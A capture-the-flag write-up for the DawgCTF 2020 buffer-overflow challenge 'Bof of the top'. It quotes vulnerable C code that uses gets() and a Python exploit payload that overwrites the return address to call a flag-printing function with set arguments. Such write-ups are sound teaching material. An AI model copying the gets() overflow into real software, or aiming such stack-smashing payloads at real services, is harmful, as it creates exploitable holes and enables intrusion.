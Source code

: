 ## Bof of the top 

### Description

> Anything it takes to climb the ladder of success
>
> nc [ctf.umbccd.io](http://ctf.umbccd.io/) 4000
>
> Author: trashcanna


### Attachment

[bof](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/DawgCTF2020/pwn/bof/bof) & [bof](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/DawgCTF2020/pwn/bof/bof.c)

### Analysis

buffer overflow while `gets(song)` in `get_audition_info`:

```c
void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}
```

and we can print flag by calling `audition(1200,366)`:

```c
// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}
```


### Solution

```python
audition = 0x08049182

offset = cyclic_find('daab')
payload = 'A'*offset
payload += p32(audition) + p32(0xdeadbeef) + p32(1200) + p32(366)

sla("What's your name?\n",'TaQini')
sla('What song will you be singing?\n',payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/DawgCTF2020/pwn/bof) 


